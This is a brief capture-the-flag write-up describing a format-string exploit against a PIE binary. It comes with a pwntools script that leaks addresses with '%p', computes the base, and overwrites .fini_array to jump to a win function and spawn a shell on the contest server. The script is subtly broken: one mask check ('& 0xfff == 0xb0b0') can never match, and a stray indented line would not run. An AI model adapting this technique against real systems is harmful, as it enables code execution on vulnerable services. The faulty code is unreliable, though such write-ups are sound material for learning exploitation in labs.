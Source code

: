 Because of this line got from ghidra `printf((char *)local_a8);` and because the pie was enabled for this file i was able to do 
some format string payload.
Using a lot of `%p` i was able to get the binary's adress range to trigger the win function.
Then i made a script that exploits this and got to the shell environment. Then I just used ls to find the flag and cat.

# Script: 
`from pwn import *

HOST, PORT = "ctf.ac.upt.ro", 9668
context.log_level = "info"

OFF_WIN        = 0x1380
OFF_FINI_ARRAY = 0x31c8
OFF_MAIN       = 0x10b0
OFF_EXIT_GOT   = 0x3420  

def pick_base(leaks):
    for x in leaks:
        if (x & 0xfff) == 0xb0b0:     
            return x - OFF_MAIN
    
    for x in leaks:
        if (x & 0xfff) == 0x1c8:
            return x - OFF_FINI_ARRAY
    return None

def parse_leaks(line_bytes):
    line = line_bytes.replace(b'!', b' ').split()
    leaks = []
    for t in line:
        if t.startswith(b"0x"):
            try: leaks.append(int(t, 16))
            except: pass
    return leaks

def main():
    io = remote(HOST, PORT)

    io.recvuntil(b"name?")
    io.sendline(b"%p " * 32) 

    io.recvuntil(b"Hello, ")
    leaks = parse_leaks(io.recvline())
    base = pick_base(leaks)
    assert base, f"Couldn't find base from leaks: {leaks}"

    fini = base + OFF_FINI_ARRAY
    win  = base + OFF_WIN

    log.success(f"PIE base  = {hex(base)}")
    log.info(   f".fini_arr = {hex(fini)}")
    log.info(   f"win       = {hex(win)}")

     io.recvuntil(b"> ")
    io.sendline(b"1")
    io.recvuntil(b": ")
    io.sendline(hex(fini).encode())
    io.recvuntil(b": ")
    io.sendline(hex(win).encode())
    io.recvuntil(b"ok")

    io.recvuntil(b"> ")
    io.sendline(b"2")

 
    io.interactive()

if __name__ == "__main__":
    main()
`
